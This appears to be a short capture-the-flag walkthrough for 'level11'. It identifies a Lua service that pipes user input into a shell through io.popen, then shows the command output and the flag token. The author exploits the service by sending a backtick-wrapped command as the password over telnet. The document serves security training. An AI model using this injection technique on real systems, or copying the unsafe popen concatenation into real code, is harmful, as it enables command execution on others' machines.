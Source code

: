 ~$ lua level11.lua
lua: level11.lua:3: address already in use
stack traceback:
	[C]: in function 'assert'
	level11.lua:3: in main chunk
	[C]: ?

Un process de level11 est deja lancer

~$ ps -aux
[...]
flag11    1825  0.0  0.0   2896   960 ?        S    09:26   0:00 lua /home/user/level11/level11.lua
[...]

~$ cat level11.lua
[...]
  prog = io.popen("echo "..pass.." | sha1sum", "r")
[...]

exec une commande shell

~$ telnet localhost 5151
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
Password: `getflag > /tmp/flag11`
Erf nope..
Connection closed by foreign host.

~$ cat /tmp/flag11
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
